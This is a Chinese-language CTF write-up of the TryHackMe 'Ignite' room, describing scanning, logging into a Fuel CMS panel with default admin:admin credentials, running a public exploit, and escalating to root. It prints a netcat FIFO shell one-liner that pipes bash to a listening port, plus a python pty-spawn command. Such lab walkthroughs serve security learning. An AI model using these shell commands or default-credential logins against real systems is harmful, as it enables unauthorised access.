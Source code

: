```yaml
---
{"dg-publish":true,"permalink":"/tryhackme/tryhackme-Ignite靶场wp/","title":"tryhackme-Ignite靶场wp","tags":["tryhackme","linux"]}
---
```


总算是解决了openvpn连接的问题 开始来打靶场

从简单的Ignite开始

首先访问靶场ip会发现是个cms的网站

![wang](/img/user/images/tryhackme-Ignite靶场wp/fuel.png)

用nmap去扫描会发现有一个文件引起了我们的注意

![wang](/img/user/images/tryhackme-Ignite靶场wp/nmap.png)

浏览那个网站会发现是一个登录界面 随便用一个弱密码admin:admin 居然等进去了

![wang](/img/user/images/tryhackme-Ignite靶场wp/login.png)

找不到东西 只能去找找有什么漏洞吗

![wang](/img/user/images/tryhackme-Ignite靶场wp/loudong.png)

用第三个漏洞

![wang](/img/user/images/tryhackme-Ignite靶场wp/liyong.png)

成功攻进去 我们进去看看有什么信息吗

没啥头绪 只能去看看网站有啥信息吗

![wang](/img/user/images/tryhackme-Ignite靶场wp/tip.png)

访问第二个高亮的文本就是藏着用户账户密码的地方

![wang](/img/user/images/tryhackme-Ignite靶场wp/user.png)

但这个命令行太不方便了 我用反弹shell来连接

```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f

nc -nv TARGET_IP 8080
```
[[tryhackme/tryhackme-shell：概括#^171f63\|tryhackme-shell：概括#^171f63]]

![wang](/img/user/images/tryhackme-Ignite靶场wp/fantan.png)

连接上之后就找找flag在哪 其实可用find来找的 但也不知道是不是用flag命名 只能随便逛逛 在/home中找到www-data 和我们登录的用户名一模一样 进去找到第一个flag

![wang](/img/user/images/tryhackme-Ignite靶场wp/flag1.png)

前面知道了root账户和密码 就用su root来提权

但发现只能是交互式终端才能提权

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

![wang](/img/user/images/tryhackme-Ignite靶场wp/root.png)

进入root目录就能找到root的flag